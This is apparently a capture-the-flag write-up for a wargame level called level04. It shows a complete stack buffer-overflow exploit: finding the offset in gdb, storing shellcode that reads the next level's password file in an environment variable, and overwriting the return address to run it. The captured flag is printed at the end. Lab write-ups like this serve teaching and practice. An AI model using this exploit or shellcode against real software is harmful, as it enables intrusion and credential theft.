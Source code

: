 # level04

Get offset with [a generated pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)
```sh
$> gdb -q level04
(gdb) set follow-fork-mode child
(gdb) r < <(echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
[...]
Program received signal SIGSEGV, Segmentation fault.
[Switching to process 3344]
0x41326641 in ?? ()
```
*We get an offset of `156` bytes.*


We then have to create a "custom" shellcode since we cannot just use the ususal `exec()`.  
After some research, we found a working one [here](https://shell-storm.org/shellcode/files/shellcode-73.php)
```sh
$> export SHELLCODE=$(python -c 'print("\x90"*100 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass")')
```

Get shellcode's address directly:
```sh
$> (echo "b main"; echo "r"; echo 'x/32s *((char **)environ)') | gdb -q level04 | grep "SHELLCODE" | cut -d " " -f 2 | cut -d ":" -f 1
0xffffd81f
```

We add ~30 bytes to that address to get the address of the shellcode. (`0xffffd81f -> 0xffffd83f`)

We then apply our payload
```sh
$> python -c "print 156 * 'a' + '\xff\xff\xd8\x3f'[::-1]" | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
```
